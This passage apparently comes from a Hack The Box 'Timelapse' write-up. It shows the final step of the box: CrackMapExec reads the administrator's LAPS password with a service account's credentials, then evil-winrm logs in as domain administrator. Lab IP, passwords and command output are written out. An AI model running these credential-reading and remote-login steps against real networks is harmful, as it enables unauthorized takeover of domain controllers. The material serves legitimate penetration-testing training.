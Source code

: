 Poking around I'm not seeing much. But thinking back to the very start of the box when we were enumerating SMB, I recalled seeing several documents about LAPS in the `Helpdesk` share, but didn't think much of it at the time.

Using CrackMapExec with our newly discovered credentials, we find that svc_deploy has the ability to read the administrator's password:

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ crackmapexec smb 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --laps
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [-] DC01\administrator:pm38wd4.QQv;AC)6YE%c@7TP STATUS_LOGON_FAILURE
```

Which means we can just take this and login as the admin:

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ evil-winrm -i 10.10.11.152 -u administrator -p 'pm38wd4.QQv;AC)6YE%c@7TP' -S

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
dc01
```

Nice! All that is left now is to grab that final flag:

![root_flag.png](../assets/timelapse_assets/root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------------
